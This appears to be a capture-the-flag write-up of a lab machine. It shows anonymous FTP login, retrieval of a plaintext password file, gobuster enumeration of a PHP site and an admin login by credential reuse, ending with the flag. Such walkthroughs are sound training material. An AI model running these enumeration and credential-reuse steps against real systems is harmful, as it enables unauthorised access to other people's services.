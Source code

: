 From our scan we see two things: 
- 21 FTP - `vsftpd 3.0.3`
- 80 HTTP - `Apache httpd 2.4.41`

Its hosting a web page for some kind of digital business growth service

Lets try and connect to port 21 with anonymous credentials

```php
ftp 10.129.1.15 21

Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:drew): anonymous
230 Login successful.
```

Lets see what we got in here

```php
dir
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
```

We got two files, lets download them and see what kind of secrets they hold.

```php
get allowed.userlist
allowed.userlist.passwd
```

In `allowed.userlist` we see a user called `admin`, big boss
We also got some passwords in `allowed.userlist.passwd` could come in handy later
Lets try to enumerate the sites directory with `gobuster`, we know Apache is running so its run `gobuster` specifically looking for `.php` files. 

```php
gobuster dir -u http://10.129.1.15 -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php --no-error -o gobuster.txt
```

Wow it did its job pretty fast and found what i needed before the scan was even 1% completed

```php
/.php                 (Status: 403) [Size: 276]
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 311] [--> http://10.129.1.15/assets/]
/css                  (Status: 301) [Size: 308] [--> http://10.129.1.15/css/]
/js                   (Status: 301) [Size: 307] [--> http://10.129.1.15/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.1.15/fonts/]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.1.15/dashboard/]
/.php                 (Status: 403) [Size: 276]
```

We were on the lookout for something like `/login.php` 
Here We've got a form to login, lets use those passwords we found earlier for the admin user and see if we can get in.

```php
http://10.129.1.15/login.php
```

Here's the list of passwords we found earlier

```php
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

I could have used something like to do a password spray but its not worth it since there was only 4 passwords to try.
It was the last password `rKXM59ESxesUFHAd`, who would have figured 0-0
Upon logging in we have access to a dashboard and we see our flag displayed.

```php
c7110277ac44d78b6a9fff2232434d16
```

